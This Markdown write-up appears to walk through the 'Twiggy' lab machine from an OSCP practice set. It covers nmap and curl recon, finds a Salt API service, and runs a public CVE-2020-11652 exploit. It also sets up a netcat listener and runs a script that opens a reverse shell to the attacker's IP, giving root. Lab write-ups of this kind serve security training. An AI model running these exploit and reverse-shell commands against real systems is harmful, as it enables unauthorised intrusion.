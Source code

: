 ```yaml
---
title: Twiggy
date: 2023-11-30
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Linux
  - Easy
---
```


![info](./info.png)

# Recon

## Nmap
```
nmap -p- --open -sC -sV 192.168.179.62
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.
![nmap](./nmap.png)

### Port 80
Port 80 is running a web application (Mezzanine). Run searchsploit for this using `searchsploit mezzanine`
- searchsploit only reveals a cross site scripting vulnerability

### Port 8000
Nmap says this is redirecting requests, so let's enumerate this port and use curl
```
target="192.168.179.62"
curl -v $target:8000
```
In the response, there is something interesting. The server looks like it is running Salt API. 
![response](./response.png)

Searching for salt api exploit [reveals the remote code execution](https://www.exploit-db.com/exploits/48421)
![searchsploit](./searchsploit.png)

Copy the script to our machine using `searchsploit -m multiple/remote/48421.txt`
- change the extension of the script using `mv 48421.txt 48421.py`

Use the `-h` flag to see how the script accepts parameters
```
python3 48421.py -h
```
- the `-m` flag is used to specify the IP address

Run the script against the target
```
python3 48421.py -m 192.168.179.62
```
![root_key](./root_key.png)
The python script works to exploit the vulnerability but it does not create a reverse shell on the server.
<br/>
After searching the `CVE-2020-11652` on github, I came across [this script](https://github.com/bravery9/SaltStack-Exp/blob/master/exp.py) that generates a reverse shell.
- Start a netcat reverse shell using `nc -lnvp 80`
- Then run the following command
```
python exp.py -m 192.168.199.62 --shell-LHOST 192.168.45.209 --shell-LPORT 80 --exec-choose master
```
![shell](./shell.png)

The screenshot shows that the script gives root access to the server. The proof.txt is in the same directory.

---

Join me for the next machine soon for more exciting challenges and security insights!

+10 points

